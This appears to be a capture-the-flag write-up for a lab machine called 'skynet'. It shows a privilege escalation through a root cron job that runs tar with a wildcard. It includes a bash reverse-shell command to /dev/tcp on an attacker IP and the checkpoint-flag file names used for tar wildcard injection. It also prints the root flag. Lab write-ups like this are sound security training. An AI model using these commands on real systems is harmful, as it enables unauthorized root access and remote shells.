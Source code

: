 ## Cron Jobs
```
<ml/45kra24zxs28v3yd/administrator$ cat /etc/crontab                         
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

* looks like theres a file `backup.sh` that is owned by root
```
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
* looks like it just zips up everything in the /var/www/html folder into a `.tgz` file
	* important to note this is not calling tar using absolute path. let's abuse this
* we create a file under `/tmp` with the name `tar` with `/bin/sh` in it
* let's put `/tmp` in the very front of the the `$PATH` env variable
```
www-data@skynet:/tmp$ export PATH=/tmp:$PATH
www-data@skynet:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@skynet:/tmp$ chmod +x tar
```

* looks this like doesn't work

## Tar Wildcard Exploit
* we can abuse the wild card in the `tar cf /home/milesdyson/backups/backup.tgz *` command
* using `--checkpoint-action=exec=sh connect.sh
` and `--checkpoint=1` flags we can execute a file called `connect.sh`
* we can create files with the names of these flags
* `/bin/bash -c "bash -i >& /dev/tcp/10.18.79.167/9003 0>&1" connect.sh`
	* reverse shell command
* `echo "" > --checkpoint=1`
	* show progress message on every checkpoint number specified
* `echo "" > "--checkpoint-action=exec=sh connect.sh"`
	* execute `connect.sh` file at every checkpoint
* wait one minute..
* root.txt - `3f0372db24753accc7179a282cd6a949`


